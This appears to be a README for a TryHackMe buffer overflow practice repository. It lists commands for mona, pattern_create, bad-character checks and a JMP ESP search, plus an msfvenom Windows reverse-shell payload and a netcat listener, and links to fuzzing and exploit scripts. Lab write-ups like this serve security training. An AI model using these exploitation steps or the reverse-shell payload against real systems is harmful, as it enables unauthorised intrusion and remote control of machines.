 # How to use it

1 - Mona Configuration
\
`!mona config -set workingfolder c:\mona\%p` (Configure mona)

2 - Fuzzer payload
\
https://github.com/Lunox-code/TryHackMe-BufferOverflowPrep/blob/main/fuzzing.py

3 - Crash Replication & Controlling EIP
\
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600` (Change the -l value to the value that crashed the server)
\
Then use Exploit payload:
\
https://github.com/Lunox-code/TryHackMe-BufferOverflowPrep/blob/main/exploit.py

4 - Search Offset
\
`!mona findmsp -distance 600` (Change the -l value to the value that crashed the server to find the EIP)
\
Then, update the exploit and set the offset variable. to the previews value and set retn to "BBBB"

5 - Finding bad characters
\
`!mona bytearray -b "\x00"`
\
then use badcharacter payload
\
https://github.com/Lunox-code/TryHackMe-BufferOverflowPrep/blob/main/badcharacters.py
\
`!mona compare -f C:\mona\oscp\bytearray.bin -a <address>` (Address EIP)
\
and try to find the badcharacters

********************

6 - Find a Jump Point
\
METHOD 1
\
Use dump on ESP
********************
METHOD 2
\
`!mona jmp -r esp -cpb "\x00"`
\
Find a jump point (Search de addres to set on the exploit in the part of "retn")
********************

7 - Prepend NOPs
\
`padding = "\x90" * 16`

8 - Create Shell
\
`msfvenom -p windows/shell_reverse_tcp LHOST=tun0IPHERE LPORT=4444 EXITFUNC=thread -b "\x00" -f c`

9 - Netcat listener

10 - exploit!
